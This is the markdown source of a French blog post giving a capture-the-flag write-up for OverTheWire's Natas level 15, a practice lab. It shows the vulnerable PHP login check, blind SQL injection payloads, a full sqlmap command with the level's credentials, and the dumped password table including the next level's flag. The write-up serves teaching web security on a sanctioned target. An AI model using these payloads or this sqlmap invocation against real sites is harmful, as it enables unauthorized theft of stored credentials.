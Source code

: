 ```yaml
---
layout: post
title: Wargame Natas - Writeup Level 15
date: 2012-11-25 20:29
comments: true
categories: hacking
photo: overthewire_logo.png
description: La solution du level 15 du wargame Natas qui s'avère être une faille de type blind SQL injection.
---
```


Il y a quelque temps je me suis penché sur le wargame [Natas](http://www.overthewire.org/wargames/natas) présent sur le site  [overthewire.org](http://www.overthewire.org), qui permet de s'initier à la sécurité web. Les épreuves sont pour la plupart assez simples et ne devrait pas poser de problèmes à ceux qui ont l'habitude des épreuves de ce genre là. Pour ceux que ça intéresse j'ai mis à disposition les solutions des épreuves précédentes sur le [wiki](http://wiki.zenk-security.com/doku.php?id=natas_wargame) de ZenkSecurity.

J'ai choisi de rédiger le writeup du level 15 pour montrer que la bonne maîtrise d'un outil peut faire gagner pas mal de temps, en l’occurrence nous allons utiliser sqlmap qui est un des outils les plus populaires pour exploiter les failles de type SQL injection.

L'épreuve se présent sous la forme d'un simple formulaire permettant de vérifier l'existence d'un utilisateur dans la base de données :

![Natas1](/img/blog_img/natas15_1.png)

Lorsque que l'on valide le formulaire un message nous indique si oui ou non l'utilisateur est présent :

![Natas1](/img/blog_img/natas15_2.png)

On suppose qu'il va falloir récupérer les informations de l'utilisateur "natas16" puisqu'il existe.

Jetons un oeil au code source :

{% highlight php linenos %}
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
{% endhighlight %}

On apprend tout d'abord que les informations sont stockées dans une table nommée "users" et qui comprend deux colonnes, "username" et "password". Le flag pour le prochain niveau correspond très probablement au mot de passe de l'utilisateur natas16.

On remarque qu'il est possible de modifier la requête SQL en manipulant le paramètre "username" puisque ce dernier n'est pas filtré. Malheureusement on ne va pas pouvoir directement récupérer les informations présente en base puisque la seule informations que nous est fournis est si oui ou non l'utilisateur existe.

Pour arriver à nos fin nous allons utiliser une technique appelé Blind SQL injection, un exemple est plus parlant :

    natas16" and 1=2# // This user doesn't exist.
    natas16" and 1=1# //  This user exist.
    natas16" and substr(password,1,1)='4'# // This user doesn't exist.
    natas16" and substr(password,1,1)='3'# //  This user exist.

On peut donc récupérer caractère par caractère le mot de passe de l'utilisateur natas16 avec un petit script, mais comme je suis feignant on va utiliser sqlmap avec les options qui vont bien:

    sqlmap.py
    -u "http://natas15.natas.labs.overthewire.org/"
    --string="This user exists"
    --technique=B
    --auth-type=Basic
    --auth-cred=natas15:m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV
    --data "username=natas16"
    -D natas15
    -T users
    -C username,password
    --dump
    --level=5
    --risk=3

Après quelques minutes vous devriez obtenir ceci :

    +----------------------------------+----------+
    | password                         | username |
    +----------------------------------+----------+
    | hROtsfM734                       | alice    |
    | 6P151OntQe                       | bob      |
    | HLwuGKts2w                       | charlie  |
    | 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L | natas16  |
    +----------------------------------+----------+

Et une épreuve validée de plus :)

Pour plus d'info concernant les options de sqlmap reportez vous à la [documentation](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Et si vous voulez voir l'exécution du script en direct c'est par ici :

<script type="text/javascript" src="http://ascii.io/a/1623.js" id="asciicast-1623"> </script>